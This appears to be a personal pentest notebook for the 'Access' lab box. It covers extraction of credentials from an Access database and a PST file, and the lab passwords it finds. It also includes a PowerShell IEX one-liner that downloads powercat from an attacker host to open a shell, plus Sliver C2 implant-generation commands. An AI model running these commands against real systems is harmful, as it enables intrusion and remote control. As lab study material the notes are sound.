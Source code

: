 # Access Notes

## Data 

IP:  10.10.10.98
OS: Window server 2008 x64 
Hostname: Access
Machine Purpose: 
Services: 21,23,80 - LON-MC6! - no udp!
Service Languages: 
Users:  users.txt
Credentials: passwords.txt
```
access4u@security is password for 'Access Control.zip'
"security" - 4Cc3ssC0ntr0ller
john - john@megacorp.com
security@accesscontrolsystems.com
```
## Objectives



## Solution Inventory Map

WTF is LON-MC6 



telnet clients group

```powershell
# a backup of the primary Bootsect.dos created by old Windows OSs
C:\BOOTSECT.BAK
# 
C:\ZKTeco\ZKAccess3.5
```

### Todo 

WTF is LON-MC6 router?
yawcam is security camera - faq mentions port forwarding - but no binaries are aloud

![](alotsofperms.png)
[exploitdb](https://www.exploit-db.com/exploits/40323) - we can basically modify because we can append, read and write data. I am happy I found this without searching for exploitdb.

```
icalcs C:\ZKTeco\ZKAccess3.5
```

icaclzkaccessexes.png




But we cant modify dlls or write dll unless we can find phantom dlls that get loaded [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)
dllhijackingtypes.png



https://www.trendmicro.com/vinfo/us/security/news/vulnerabilities-and-exploits/patched-microsoft-access-mdb-leaker-cve-2019-1463-exposes-sensitive-data-in-database-files

### Done

https://support.microsoft.com/en-us/topic/ms09-042-vulnerability-in-telnet-could-allow-remote-code-execution-7d71e702-0539-73ab-dbbe-2ac5502c8420 - no info, but it more a hint for our only point of connect, if I had waited I would seen it ask for credentials

dumpingftp.png
https://en.wikipedia.org/wiki/Microsoft_Access
Install [mbdtools](https://www.kali.org/tools/mdbtools/)
```bash
# mdbtools for mdb databse
# pstutils for the .pst file 
sudo apt install mdbtools pstutils
```

JET4.png
```bash
mdb-tables backup.mdb > all-tables
```

```bash
mdb-hexdump backup.mdb
```
afavouriteword.png
creds.png
3333s.png

access4u@security is password for 'Access Control.zip'

passwordaccountandversions.png

https://linux.die.net/man/1/readpst
```bash
readpst Access\ Control.pst
cat Access\ Control.mbox
```

John Carter is mentioned in USERINFO.c
johncarter.png

https://vulners.com/nessus/SMB_NT_MS09-042.NASL - trick a user or SSRF with telnet 

security-4Cc3ssC0ntr0ller.png

yawcam.png
https://packetstormsecurity.com/files/145770/Yawcam-0.6.0-Directory-Traversal.html

```powershell
%USER%.yawcam

type .yawcam\ver.dat
0.6.2
http://www.yawcam.com/ver.dat
http://home.bitcom.se/yawcam_files/ver.dat


```
https://www.yawcam.com/

systeminfo.png


Sad Netdogs and Netcats
netdogssaddogs.png

All executables are blocked by group policy

ZKTeco.png
```powershell
# Access denied - icacls you fool 
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.16/powercat.ps1');powercat -c 10.10.14.16 -p 8000 -i C:\ZKTeco\ZKAccess3.5"
# Icacls just because
icacls C:\ZKTeco\ZKAccess3.5
```

yawcam settings file 176.26.141.32:8080 is referenced
no172conn.png

I feel in love with sliver from the silly names of implants to clarity and speed.

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/)
```go
sliver
// View all implants
implants
// Generate Beacons and Sessions
generate
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions opsec unsafe
generate --mtls domain.com --os windows --save 
// Beacons are asychronous - more opsec way they sleep and check 
generate beacon --mtls 10.10.10.10:6969 --arch amd64 --os windows -save /path/to/directory
// Regenerate
regenerate
// listeners
// Do not accept interfaces as arguemnts like metasploit
mtls
wg
https
http
dns
// Jonbs to view and manage listners
jobs
// Interact with sessions
use sessionID 
```

https://freshman.tech/snippets/go/cross-compile-go-programs/

https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

```powershell
sc query state=all
```